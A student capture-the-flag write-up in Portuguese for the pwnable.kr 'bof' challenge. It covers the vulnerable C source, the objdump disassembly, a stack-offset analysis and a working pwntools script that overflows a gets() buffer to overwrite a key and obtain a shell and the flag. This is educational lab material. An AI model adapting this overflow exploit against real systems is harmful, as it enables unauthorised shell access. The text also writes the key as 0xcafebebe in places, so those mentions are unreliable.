 # Challenge 2: Buffer Overflow

## Autores
- [Guilherme Locca Salomão](https://github.com/Caotichazard), 758569
- [João Victor Mendes Freire](https://github.com/joaovicmendes), 758943
- [Martin Heckmann](https://github.com/heckmartin), 758986

## Descrição
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

<img src="screencaps/nc.png" width=600/>

## Solução
Inicialmente, o problema nos mostra o seguinte código fonte:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
O objetivo do código é fazer com que `key` seja igual a `0xcafebebe`, mas o programa foi compilado passando a chave `0xdeadbeef`.
O próprio código já nos aponta pro lugar onde uma vulnerabilidade pode ser encontrada, na função `gets()`. A função, pertencente à `libc`, tem a seguinte descrição no `man`.

```
The gets() function is equivalent to fgets() with an infinite size and a stream of stdin,
except that the newline character (if any) is not stored in the string. It is the caller's
responsibility to ensure that the input line, if any, is sufficiently short to fit in the string.
```

Essa descrição já deixa claro o que deve ser feito: a função não verifica se o buffer alocado tem espaço suficiente para armazenar o conteúdo que será lido da entrada padrão. Assim, é possível fazermos um buffer overflow para alterar os conteúdos da pilha do programa.

Ao utilizarmos o programa `objdump` pra descompilar o código, obtemos o seguinte código assembly para a função `main` e `func`:

<img src="screencaps/objdump.png" width=600/>

```
0000068a <main>:
     68a: 55                           	pushl	%ebp
     68b: 89 e5                        	movl	%esp, %ebp
     68d: 83 e4 f0                     	andl	$-16, %esp
     690: 83 ec 10                     	subl	$16, %esp
     693: c7 04 24 ef be ad de         	movl	$3735928559, (%esp)
     69a: e8 8d ff ff ff               	calll	0x62c <func>
     69f: b8 00 00 00 00               	movl	$0, %eax
     6a4: c9                           	leave
     6a5: c3                           	retl
```

```
0000062c <func>:
     62c: 55                           	pushl	%ebp
     62d: 89 e5                        	movl	%esp, %ebp
     62f: 83 ec 48                     	subl	$72, %esp
     632: 65 a1 14 00 00 00            	movl	%gs:20, %eax
     638: 89 45 f4                     	movl	%eax, -12(%ebp)
     63b: 31 c0                        	xorl	%eax, %eax
     63d: c7 04 24 8c 07 00 00         	movl	$1932, (%esp)
     644: e8 fc ff ff ff               	calll	0x645 <func+0x19>
     649: 8d 45 d4                     	leal	-44(%ebp), %eax
     64c: 89 04 24                     	movl	%eax, (%esp)
     64f: e8 fc ff ff ff               	calll	0x650 <func+0x24>
     654: 81 7d 08 be ba fe ca         	cmpl	$3405691582, 8(%ebp)
     65b: 75 0e                        	jne	0x66b <func+0x3f>
     65d: c7 04 24 9b 07 00 00         	movl	$1947, (%esp)
     664: e8 fc ff ff ff               	calll	0x665 <func+0x39>
     669: eb 0c                        	jmp	0x677 <func+0x4b>
     66b: c7 04 24 a3 07 00 00         	movl	$1955, (%esp)
     672: e8 fc ff ff ff               	calll	0x673 <func+0x47>
     677: 8b 45 f4                     	movl	-12(%ebp), %eax
     67a: 65 33 05 14 00 00 00         	xorl	%gs:20, %eax
     681: 74 05                        	je	0x688 <func+0x5c>
     683: e8 fc ff ff ff               	calll	0x684 <func+0x58>
     688: c9                           	leave
     689: c3                           	retl
```

Em `func`, podemos observar que o programa compara `3405691582` (a versão decimal de `0xcafebebe`) com a posição de memória `ebp` + 8 bytes. Essa é a comparação que desejamos explorar, para fazer com que, após executar o `gets`, `ebp+8` tenha o valor `0xcafebebe`. Um pouco antes, no `call` que faz a chamada para `gets`, é possível ver que ele copia o conteúdo que retorna (`eax`) para `-44(%ebp)` (ou seja, esta 44 bytes abaixo do ponteiro base). Isso indica que é nessa posição que o buffer está alocado. Logo, devemos começar a preencher a partir dessa região com dados aleatórios, e depois colocaremos `0xcafebebe` logo após `ebp` para que a comparação seja verdadeira.

O seguinte script Python usa a biblioteca pwn para abrir uma conexão com o servidor e enviar a linha que executa o exploit.

```python
import pwn

input_text = 'A'*52 # para preenchermos o espaço do buffer até chegar em ebp
input_text += '\xbe\xba\xfe\xca' # o valor que será armazenado em key

conn = pwn.remote('pwnable.kr', 9000) # conexão com o servidor que está executando o programa

conn.sendline(input_text)
conn.interactive()
````

Com esse código, conseguimos um shell interativo, e basta realizarmos um `cat flag` que obtemos `daddy, I just pwned a buFFer :)`.

<img src="screencaps/overflow.png" width=600/>
